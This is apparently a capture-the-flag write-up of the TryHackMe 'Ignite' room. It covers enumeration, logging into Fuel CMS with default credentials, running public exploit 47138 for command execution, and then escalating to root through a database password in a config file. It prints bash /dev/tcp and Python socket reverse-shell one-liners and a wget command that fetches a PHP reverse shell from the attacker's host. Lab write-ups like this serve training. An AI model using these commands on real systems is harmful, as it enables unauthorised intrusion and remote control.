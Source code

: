 # TryHackMe - Ignite

[Room link](https://tryhackme.com/room/ignite)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:E2:A6:89:F5:5D (Unknown)
```

---

### HTTP 80

Let's move on the website on port 80. We can wee on the default page the CMS Fuel.

Let's rum a dirb scan :

```bash
$ dirb http://<target_IP>
[...]
==> DIRECTORY: http://10.10.85.16/assets/
+ http://10.10.85.16/home (CODE:200|SIZE:16593)                              
+ http://10.10.85.16/index (CODE:200|SIZE:16593)                             
+ http://10.10.85.16/index.php (CODE:200|SIZE:16593)                         
+ http://10.10.85.16/lost+found (CODE:400|SIZE:1134)                         
+ http://10.10.85.16/offline (CODE:200|SIZE:70)                              
+ http://10.10.85.16/robots.txt (CODE:200|SIZE:30)                           
+ http://10.10.85.16/server-status (CODE:403|SIZE:299)                       
                                                                             
---- Entering directory: http://10.10.85.16/assets/ ----
                                                                              + http://10.10.85.16/assets/@ (CODE:400|SIZE:1134)                           
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/cache/
                                                                              ==> DIRECTORY: http://10.10.85.16/assets/css/                                                      
```

We can see a robots.txt available. If you go to check it in, you will see an another available directory on this website called /fuel/.

Now, we have an authentication form. Let's check the default credentials of the CMS.

The default credentials are : admin/admin. Try to test it.

That works ! We are connect as admin user.



---

## Exploitation

From the administration interface of the CMS, i meet some troubles for change anything.. 

In the same time, I checked if an exploit for Fuel CMS 1.4 exists. I found this follow :

```bash
$ searchsploit fuel cms
[...]
$ searchsploit -m 47138


I just delete the proxy variable and delete the proxy argument in the requests.get.

```bash
#       proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url)
```

Run this exploit with the "id" remote command. 

```bash
$ python 47138.py
[...]
cmd:id
[...]
cmd:id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">
[...]
```

We can try to send a command to set up a reverse shell. Don't forget to set a nc listener ( example : $ nc -lnvp 4444).

``̀`bash
cmd:"bash -c 'exec bash -i &>/dev/tcp/<my_ip>/<listener_port> <&1'"
`

That does not works. So let's try to set up a webserver on local and execute a wget command from the target to my machine for get a php reverse shell file.

```bash
# Local (we need to have our reverse shell file on the current directory)
$ python3 -m http.server 80
```

Take this follow commands to get the reverse shell file from target to our webserver.

```bash
cmd:wget http://<your_ip>/<reverse_shell_file>
```

Then, we can execute the file on the browser with this url : http://<target_ip>/<php-reverse-shell>

We can upgrade our reverse shell to a pseudo operationnel TTY :

```bash
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$  
``` 
 
---  
  
## User flag

The user flag is in /home/www-data/flag.txt

---

## Root flag

On the first reverse shell :
  
```bash  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",<listner_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```  
  
On the second reverse shell
  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
```
  
There is an interesting things, the user's root password in this file /var/www/html/fuel/application/config/database.php
  
```bash
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '*******',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```
  
Now, we can connect as root user and find the final flag on /root/root.txt
